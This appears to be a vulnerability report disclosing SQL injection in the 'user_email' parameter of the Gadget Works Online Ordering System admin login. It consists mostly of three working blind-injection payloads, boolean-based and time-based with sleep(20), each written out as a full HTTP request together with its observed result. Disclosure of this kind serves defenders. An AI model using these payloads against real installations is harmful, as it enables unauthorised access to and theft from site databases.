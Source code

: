 # Gadget Works Online Ordering System v1.0 has SQL injection

BUG_Author: heitaoa999

Website source address:https://www.sourcecodester.com/php/13093/gadget-works-online-ordering-system-phpmysqli.html

Vulnerability File: /philosophy/admin/login.php

POST parameter 'user_email' exists SQL injection vulnerability

Payload1:user_email=a' rlike (select (case when (666=666) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 100
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' rlike (select (case when (666=666) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=
```

boolean-based blind return correct

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql1.png)

Payload2:user_email=a' rlike (select (case when (666=555) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 100
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' rlike (select (case when (666=555) then 0x61 else 0x28 end))-- b&user_pass=b&btnLogin=
```

boolean-based blind return an error

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql2.png)

Payload3:user_email=a' and (select 1 from (select(sleep(20)))a)-- a&user_pass=b&btnLogin=

```
POST /philosophy/admin/login.php HTTP/1.1
Host: localhost
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

user_email=a' and (select 1 from (select(sleep(20)))a)-- a&user_pass=b&btnLogin=
```

The server response time is 20 seconds

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/sql3.png)
